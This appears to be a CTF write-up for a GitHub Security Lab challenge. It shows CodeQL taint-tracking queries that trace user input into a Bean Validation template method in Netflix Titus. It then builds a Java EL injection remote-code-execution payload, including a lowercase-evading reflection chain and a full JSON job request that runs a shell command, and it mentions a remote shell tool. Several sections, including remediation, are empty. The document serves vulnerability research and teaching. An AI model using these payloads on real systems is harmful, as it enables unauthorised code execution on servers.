


# GitHub Java CTF Submission: Kanav Gupta
Submission for the GitHub Security Lab CTF 4: CodeQL and Chill - The Java Edition

## Introduction

The challenge introduction aptly summarizes the issue: user controlled data being passed into the Bean Validation library function `ConstraintValidatorContext.buildConstraintViolationWithTemplate` which supports Java EL Expressions. Hence, remote code execution. That might seem to be the end of the issue, but it isn't. Getting an RCE wasn't as easy as just passing an EL expression. Some issues like lowercasing of the user input stopped us from getting the exploit. In this report I explain how I found specific user controlled data which flows into the target function using CodeQL, assess what requirements we have for a successful remote code execution and finally I present the exploit.

## Step 1: Data Flow and Taint Tracking Analysis

### 1.1 Sources

An important part of finding the exploit is finding where all the user controlled data can come from. A good starting point is explained in the challenge page itself - first formal parameter to the function `isValid`. 

So the predicate to this is quiet straight forward

```codeql
class TypeConstraintValidator extends GenericInterface {
  TypeConstraintValidator() { hasQualifiedName("javax.validation", "ConstraintValidator") }
}

predicate isSource(DataFlow::Node source) { 
    exists(Method m, ParameterizedInterface p |
        source.asParameter() = m.getParameter(0) and
        m.getName() = "isValid" and 
        m.getDeclaringType().hasSupertype(p) and
        p.getSourceDeclaration() instanceof TypeConstraintValidator
    )
}
```

In this snippet, class `TypeConstraintValidator` the interface `javax.validation.ConstraintValidator`. To explain the query, we want such sources for which, there exists such method whose first paramenter is the node itself, and name of the method is `isValid` and the method is a part of a class which extends `javax.validation.ConstraintValidator`.



We see 8 results, but 2 out of these 8 don't override the `isValid` provided by the interface `javax.validation.ConstraintValidator`. We filter them out using this following query -

```codeql
predicate isSource(DataFlow::Node source) { 
    exists(Method m, ParameterizedInterface p |
        source.asParameter() = m.getParameter(0) and
        m.getName() = "isValid" and 
        m.getDeclaringType().hasSupertype(p) and
        p.getSourceDeclaration() instanceof TypeConstraintValidator and
        m.getAnAnnotation() instanceof OverrideAnnotation
    )
}
```



This query helps us find where all the vulnerability could be, but this doesn't help us to find the data that is directly controlled by the user. To find them, thanks to CodeQL we have `RemoteFlowSource` class which points out all the nodes directly controlled by the user. We can use this simple query to find all the sources that are controlled by remote user:

```codeql
 predicate isSource(DataFlow::Node source) { source instanceof RemoteFlowSource }
```

We shall see in [section 3.2](#32-using-remoteflowsource) as how we used this to find all such paths where we start from a `RemoteFlowSource` and end at `buildConstraintViolationWithTemplate`

### 1.2 Sink

As we know where the actual vulnerability exists, i.e. `buildConstraintViolationWithTemplate`, writing the sink was trivial.

```codeql
predicate isSink(DataFlow::Node sink) { 
    exists(MethodAccess c | sink.asExpr() = c.getArgument(0) and
        c.getMethod().hasName("buildConstraintViolationWithTemplate"))
}
```

That is, we want all nodes which are first argument to a method call whose name is `buildConstraintViolationWithTemplate`.


We get the expected results.

### 1.3 TaintTracking Configuration

We have our sources and sinks ready. We now run the full taint tracking query to find all the taint flow paths.

```codeql
/** 
* @kind path-problem 
*/
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PathGraph

class TypeConstraintValidator extends GenericInterface {
  TypeConstraintValidator() { hasQualifiedName("javax.validation", "ConstraintValidator") }
}

class MyTaintTrackingConfig extends TaintTracking::Configuration {
    MyTaintTrackingConfig() { this = "MyTaintTrackingConfig" }

    override predicate isSource(DataFlow::Node source) { 
        exists(Method m, ParameterizedInterface p |
            source.asParameter() = m.getParameter(0) and
            m.getName() = "isValid" and 
            m.getDeclaringType().hasSupertype(p) and
            p.getSourceDeclaration() instanceof TypeConstraintValidator
        )
    }

    override predicate isSink(DataFlow::Node sink) { 
        exists(MethodAccess c | sink.asExpr() = c.getArgument(0) and
            c.getMethod().hasName("buildConstraintViolationWithTemplate"))
    }

    override int explorationLimit() { result =  10 }
}


from MyTaintTrackingConfig cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"
```

And as mentioned in the challenge page, I get 0 results.

### 1.4 Partial Flow to the rescue

To debug why we get no result, we use Partial Flow analysis. We know that we have a vulnerability in the file `SchedulingContraintSetValidator.java`, so we set the source to the formal parameter of this method.

```codeql
/** 
* @kind path-problem 
*/
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PartialPathGraph

class TypeConstraintValidator extends GenericInterface {
  TypeConstraintValidator() { hasQualifiedName("javax.validation", "ConstraintValidator") }
}

class MyTaintTrackingConfig extends TaintTracking::Configuration {
    MyTaintTrackingConfig() { this = "MyTaintTrackingConfig" }

    override predicate isSource(DataFlow::Node source) { 
        exists(Method m, ParameterizedInterface p |
            source.asParameter() = m.getParameter(0) and
            m.getName() = "isValid" and 
            m.getDeclaringType().hasSupertype(p) and
            p.getSourceDeclaration() instanceof TypeConstraintValidator
        )
    }

    override predicate isSink(DataFlow::Node sink) { 
        exists(MethodAccess c | sink.asExpr() = c.getArgument(0) and
            c.getMethod().hasName("buildConstraintViolationWithTemplate"))
    }

    override int explorationLimit() { result =  10 }
}

from MyTaintTrackingConfig cfg, DataFlow::PartialPathNode source, DataFlow::PartialPathNode sink
where
  cfg.hasPartialFlow(source, sink, _) and
  exists(Method m | 
    source.getNode().asParameter() = m.getParameter(0) and
    m.getParameter(0).getType().hasName("Container")
  )
select sink, source, sink, "Partial flow from unsanitized user data"
```

In the output, we see that flow stops at the return statement of the getters like `getSoftConstraints` and `getHardConstraints`. 

### 1.5 Identifying a missing taint step

As we see in the last step, the code doesn't propagate through the getters. My best bet why this happens is because getters not always point to tainted data. They often point to some static variables, which are not tainted.

### 1.6 Adding additional taint steps

We need to step through the getters as explained in the last step. For this, we add an addition step where we step from a method access to it's qualifier. As suggested in the challenge, we extend `TaintTracking::AdditionalTaintStep`.

```codeql
class StepThroughGetters extends TaintTracking::AdditionalTaintStep {

  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma, GetterMethod m |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        ma.getCallee() = m
    )
  }
}

```
We restrict our step only through the getter methods, not through general methods. This time, the flow stops at the HashSet Constructor. But in the output we see that


We don't step through `keySet()` method. So we must step through all the methods.

```codeql
class StepThroughGetters extends TaintTracking::AdditionalTaintStep {

  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma|
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier()
    )
  }
}

```


We pass through all the method invocations of any object now.

### 1.7 Adding taint steps through a constructor

We just join the two conditions, i.e. through getters and through constructors.

```codeql
class StepThroughGetters extends TaintTracking::AdditionalTaintStep {

  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier()
    ) or
    exists(ConstructorCall ma |
        succ.asExpr() = ma and
        ma.getArgument(0) = pred.asExpr()
    )
  }
}

```


Hurray :tada:! We reached our final destination function. We have fixed the steps for the `SchedulingConstraintSetValidator.java` file. Other files to go!

## Step 2: Second Issue

## Step 3: Errors and Exceptions

### 3.2 Using RemoteFlowSource

Now we will make use of `RemoteFlowSource` to find all remote user controlled data which finally lead to `buildConstraintViolationWithTemplate`.

As `isValid` function is called by a library function, not inside the source, we need to find the last expressionn which calls a library function that finally lead to the `isValid` functions. To get this we add a breakpoint inside the `isValid` function of `SchedulingConstraintSetValidator.java` just to get a complete call stack, and make a job requests.


We observe that the class `DefaultEntitySanitizer` is called which calls `validate` function, which calls some internal library functions that finally lead to `isValid` function. To make it more general, we see that `DefaultEntitySanitizer` extends `EntitySanitizer`, so we set the sink to the `validate` function of `EntitySanitizer` and set the source to `RemoteFlowSource`. 

```codeql
    override predicate isSource(DataFlow::Node source) { 
        source instanceof RemoteFlowSource
    }

    override predicate isSink(DataFlow::Node sink) { 
        exists(MethodAccess c | 
            sink.asExpr() = c.getAnArgument() and
            c.getMethod().hasName("validate") and
            c.getMethod().getDeclaringType().hasQualifiedName("com.netflix.titus.common.model.sanitizer", "EntitySanitizer")
        )
    }
```


(complete query is available [here](/queries/remote-to-validate.ql))

We find 18 such paths. We see that the following types are the source of such paths

* SystemSelector
* JobDescriptor
* String
* ScalableTargetResourceInfo
* Capacity
* JobCapacityWithOptionalAttributes

All these are the sources that may be validated and eventually may be a source of an RCE. But as we know that not all types are validated (as in section 1.2), all these reduce to a much smaller number.

## Step 4: Exploit and Remedition

First step towards a successful exploit is setting up a development environment. I set up the project on Docker using the `docker-compose.yml` and tweaked the Dockerfiles to fire up debugging in IntelliJ IDEA.

First glance at the files `SchedulingConstraintValidator.java` and `SchedulingConstraintSetValidator.java` suggest that the keys of the dictonaries are passed into the template builder function. That's were our EL expression will go.

A neat data model for Titus can be found [here](https://github.com/Netflix/titus-api-definitions/blob/master/doc/Titus_v3_data_model.png). It clearly shows that `softConstraints` and `hardConstraints` are inside the class `Container` and an instance of class is made under `JobDescriptor`. So, I make a reasonable guess that we can tweak the JobDescriptor object while creating a job to get an RCE. In the main readme file of titus-control-plane, under the section ([here](https://github.com/Netflix/titus-control-plane#local-testing-with-docker-compose)) they have provided the basic curl request to submit a job. We need to just add the keys `softConstraints` and `hardConstraints` to the data payload. A very basic payload should be:

```json
{
    "applicationName": "myApp",
    "owner": {
        "teamEmail": "hello@gmail.com"
    },
    "container": {
        "resources": {
            "cpu": 1,
            "memoryMB": 128,
            "diskMB": 128,
            "networkMbps": 1
        },
        "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
        "image": {
            "name": "ubuntu",
            "tag": "xenial"
        },
        "softConstraints": {
            "constraints": {
                "#{6*9}": "lol"
            }
        },
        "hardConstraints": {
            "constraints": {
                "#{6*9}": "lol"
            }
        }
    },
    "service": {
        "capacity": {
            "min": 1,
            "max": 1,
            "desired": 1
        },
        "retryPolicy": {
            "immediate": {
                "retries": 10
            }
        }
    }
}
```

We see a successful response -
```json
{
    "statusCode": 400,
    "message": "Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [54]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [54]', type: 'HARD''}, {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [54]', type: 'HARD''}"
}
```

Things get interesting when we send an actual exploit, i.e we send the EL Expression `#{''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("touch /tmp/hello")')}`

```json
{
    "statusCode": 500,
    "message": "Unexpected error: HV000149: An exception occurred during message interpolation"
}
```

We open our debugger, and we find that when creating a job, first individual constraints are validated (using `isValid` function in `SchedulingConstraintValidator.java` file) to see if valid keys are sent, then validation for the complete set is done to see if both constraint sets dont contain anything common.

As the validation is done inside `SchedulingConstraintValidator.java` file first, we see that in the `isValid` function:

```
Set<String> namesInLowerCase = value.keySet().stream().map(String::toLowerCase).collect(Collectors.toSet());
```

This is why we get 500. The complete EL expression is converted to lowercase, i.e 
```
#{''.class.forname('javax.script.scriptenginemanager').newinstance().getenginebyname('js').eval('java.lang.runtime.getruntime().exec("touch /tmp/hello")')}
```
which should obviously error because Java doesn't know any class by name "javax.script.scriptenginemanager". Even though this lowercasing doesn't happen in `SchedulingConstraintSetValidator.java`, but the code errors before reaching there.

So we now need to forge an EL expression such that all the letters in the code are in lowercase (which is tough, because Java inherently uses camel-case).

### Lowercase Remedy

For achieving this, we use `a.class.methods[*].invoke(a, args...)` to invoke any method, instead of invoking them by `a.methodCanContainCapitalLetters(args...)`. Only thing we need to do is to find at what index of `a.class.methods` does the function we need lie. We can also use `'a'.replace('a', 83)` to print "S" and other such strings.

The below table contains some of the examples,

Required Code | Payload
--- | ---
`''.class.forName(x)` | `''.class.class.methods[0].invoke(''.class, x)`
`''.class.forName('javax.script.ScriptEngineManager')` | `''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')`
`''.class.forName('javax.script.ScriptEngineManager').newInstance()` | `''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager'))`
`''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js')` | `''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js')`

### Final Payload

Continuing such translation, I managed to run `''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').compile('java.lang.Runtime.getRuntime().exec("touch /tmp/hello")').eval()`

```json
{
    "applicationName": "myApp",
    "owner": {
        "teamEmail": "hello@gmail.com"
    },
    "container": {
        "resources": {
            "cpu": 1,
            "memoryMB": 128,
            "diskMB": 128,
            "networkMbps": 1
        },
        "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
        "image": {
            "name": "ubuntu",
            "tag": "xenial"
        },
        "softConstraints": {
        },
        "hardConstraints": {
            "constraints": {
                "#{''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js').class.methods[7].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js'), 'print(1);').class.methods[3].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js').class.methods[7].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js'), 'java.lang.' + 'a'.replace('a', 82) +  'untime.get' + 'a'.replace('a', 82) + 'untime().exec(\"touch /tmp/pwn\")')) + ''}": "lol"
            }
        }
    },
    "service": {
        "capacity": {
            "min": 1,
            "max": 1,
            "desired": 1
        },
        "retryPolicy": {
            "immediate": {
                "retries": 10
            }
        }
    }
}
```


:tada:


But this payload contains a particular caveat. Index for a particular function changes with different boots. This happens generally for the methods with multiple overloads, like `compile` function which have overloads for both `String` and `Reader`. Hence we need to find the index first. I observed the change of index from 7 to 6. So it's important to first find at what indexes our desired functions are, then we can execute our code. But `compile` doesn't contain capital letters (I forgot this :p), this problem doesn't pose that much problem for us.

A more refined version of this payload is present in this [file](payloads/refined.sh) (if you need to see only json, see this [file](payloads/refined.json)) but the caveat is still present there. I never experienced a problem, but as we still are using indexes, problem can occur. Best way to handle this is by making a loop of all indexes and fetch the  method's signature and see at which index you see the required method.

A python project where you can run a complete shell (like in SSH) is present [here](titus-shell/) which is free of all such problems.
<p align="center">
  <a href="https://asciinema.org/a/ISMpd2C6Rn1NV1Y2SyyqE8I1P">
    
  </a>
</p>

### 4.1 PoC: Reproducing vulnerability locally

Dependencies other than that for Titus:
1. Python 3

Steps:
1. Setup titus-control-plane at commit 8a8bd4c at default ports (7001).
2. Change directory to `titus-shell/` in this repository.
3. Install the package dependencies (in a virtual environment maybe) using `pip3 install -r requirements.txt`
4. Run `python3 shell.py` to start the shell.
5. Any command you enter would run on the `gateway` container of titus.

If you don't wish to run a shell, just copy the contents of the [refined.sh](/payloads/refined.sh) file and paste it to your shell. You will see that a file `/tmp/pwn` is made in the `gateway` container.

### 4.2 Remediation


